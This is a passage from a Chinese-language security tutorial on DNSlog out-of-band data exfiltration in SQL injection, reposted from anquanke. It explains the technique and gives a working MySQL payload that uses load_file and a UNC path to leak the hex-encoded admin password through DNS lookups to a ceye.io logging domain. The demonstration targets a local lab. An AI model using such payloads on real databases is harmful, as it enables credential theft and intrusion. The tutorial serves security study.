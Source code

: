 http://netsecurity.51cto.com/art/201802/566391.htm

## Dnslog在SQL注入中的实战

本文主要讲述Dnslog这种攻击手法在SQL注入中的实战运用，虽然网上对于Dnslog在SQL注入方面运用的文章也不少。但是很多文章都只是片面的提到了这个攻击方式，或者只是用某个简单的payload做了简单的验证。

- 作者：佚名来源：[安全客](https://www.anquanke.com/post/id/98096)|*2018-02-10 09:44*

                   	                 		[ 收藏](javascript:favorBox('open');)                 	 					 						[  分享](javascript:;) 					                 

本文主要讲述Dnslog这种攻击手法在SQL注入中的实战运用，虽然网上对于Dnslog在SQL注入方面运用的文章也不少。但是很多文章都只是片面的提到了这个攻击方式，或者只是用某个简单的payload做了简单的验证。然而在实际的运用中，因为环境的差异，利用也不同。本文详细的记录了在多种常见数据库实际运用过程的一些细节，包括POC的编写和原理，和一些网上没有公开的利用POC。

[![Dnslog在SQL注入中的实战](http://s3.51cto.com/oss/201802/10/e3543fac3b4ab5cb67f986a6cb666870.jpg-wh_651x-s_2442292045.jpg)](http://s3.51cto.com/oss/201802/10/e3543fac3b4ab5cb67f986a6cb666870.jpg-wh_651x-s_2442292045.jpg)

**一、关于DNSlog在Web攻击的利用**

DNSlog在Web漏洞利用中已经是老生常谈的问题，简单理解就是在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起DNS请求，这个时候就可以通过这种方式把想获得的数据外带出来。

**二、常用在哪些情况下**

- SQL注入中的盲注
- 无回显的命令执行
- 无回显的SSRF

**三、Dnslog攻击的基本原理**

[![Dnslog攻击的基本原理](http://s1.51cto.com/oss/201802/10/a774db841e7b859872e4e1c1f3b18a7d.jpg)](http://s1.51cto.com/oss/201802/10/a774db841e7b859872e4e1c1f3b18a7d.jpg)

如图所示，作为攻击者，提交注入语句，让数据库把需要查询的值和域名拼接起来，然后发生DNS查询，我们只要能获得DNS的日志，就得到了想要的值。所以我们需要有一个自己的域名，然后在域名商处配置一条NS记录，然后我们在NS服务器上面获取DNS日志即可。

**四、Dnslog在常见数据库中SQL注入的实战**

这里主要列举了4种数据库，MySQL、MSSQL、PostgreSQL、Oracle。

本次演示一个最常见的注入场景，就是WHERE后面条件处的注入。实验环境有一个test_user表，三个字段id、user、pass。如下

[![img](http://s1.51cto.com/oss/201802/10/eaf0a041a784dcf6bbfb784d663dacc1.jpg)](http://s1.51cto.com/oss/201802/10/eaf0a041a784dcf6bbfb784d663dacc1.jpg)

最后想要达到的目的是通过DNS外带的方式查询到pass字段的内容。

此处就不再自己搭建一个DNS服务器了，直接用ceye.io这个平台吧，这个平台就集成了Dnslog的功能。

**1. MySQL**

(1) load_file

MySQL应该是在实战中利用Dnslog最多的，所以先来说说它吧。

在MySQL中有个一个load_file函数可以用来读取本地的文件。

```
http://127.0.0.1/mysql.php?id=1 union select 1,2,load_file(CONCAT('\\',(SELECT hex(pass)  FROM test.test_user WHERE name='admin' LIMIT 1),'.mysql.nk40ci.ceye.io\abc')) 
```

